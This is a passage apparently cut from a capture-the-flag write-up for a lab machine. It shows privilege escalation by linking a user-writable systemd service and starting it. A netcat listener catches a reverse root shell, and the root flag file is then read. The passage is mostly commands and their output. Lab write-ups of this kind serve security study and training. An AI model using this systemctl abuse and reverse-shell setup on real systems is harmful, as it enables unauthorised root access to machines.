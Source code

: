 ```
pepper@jarvis:~$ systemctl link shell.service
Failed to link unit: Invalid argument
pepper@jarvis:~$ systemctl link /home/pepper/shell.service
Created symlink /etc/systemd/system/shell.service → /home/pepper/shell.service.
```

Now all we need to do is setup a listener and start the unit

```
# local
nc -l 8888
# Target
systemctl start shell
# Netcat listener
whoami
root
cat /root/root.txt
d41d8cd98f00b204e9800998ecf84271
```

